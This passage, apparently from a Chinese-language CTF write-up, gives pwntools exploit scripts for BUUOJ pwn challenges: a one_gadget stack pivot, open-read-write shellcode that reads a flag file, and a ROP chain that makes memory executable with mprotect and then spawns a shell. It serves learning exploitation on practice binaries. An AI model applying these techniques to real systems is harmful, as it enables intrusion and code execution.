 ```Python  
# 0x4f2c5 0x4f322 0x10a38c
one_gadget = libc_base + 0x4f2c5
payload = p64(0) + p64(one_gadget)
payload += "a"*(0xD0 - len(payload))
payload += p64(stack_addr) + p64(leave_ret)
p.recvuntil('>')
p.send(payload)

p.interactive()
```  
## 0x13 pwnable_orw  
orw一把梭  
```Python  
from pwn import*
#p=process("pwnable_orw")
p=remote("node3.buuoj.cn",28753)
orw = asm(shellcraft.open("flag", 0))
orw += asm(shellcraft.read(3, 0x804a040, 0x100))
orw += asm(shellcraft.write(1, 0x804a040, 0x100))
orw += asm(shellcraft.exit(0))

p.sendafter("shellcode:", orw)
p.interactive()
```  
## 0x14  get_started_3dsctf_2016 && not_the_same_3dsctf_2016
这两题都是一样的套路，用mprotect函数改一块可读可写的区域的权限为可读可写可执行，然后写shellcode,这里要提一下，为了使堆栈还原，所以调用mprotect函数之后要用pop保证堆栈平衡，因为push了3个参数，所以要用pop三个寄存器  
```Python  
#coding=utf-8
from pwn import*
context.log_level = 'debug'
context.terminal = ('terminator','-x','sh','-c')
#p = remote("node3.buuoj.cn",27219)
p=process("./get_started_3dsctf_2016")
elf = ELF("./get_started_3dsctf_2016")
addr = 0x80ea000
pop3ret = 0x0804f460 #pop_ebx_esi_ebp_ret 其实只要找一个pop三个寄存器的gadget就行了
payload = "a"*0x38
payload += p32(elf.sym['mprotect']) + p32(pop3ret) + p32(addr) + p32(0x2000) + p32(7)
payload += p32(elf.sym['read']) + p32(pop3ret) + p32(0) + p32(addr) + p32(0x200) + p32(addr)
sleep(0.01)
#p.recvline()
p.sendline(payload)
#gdb.attach(p)
payload = asm(shellcraft.sh())
p.send(payload)
p.interactive()
```  
   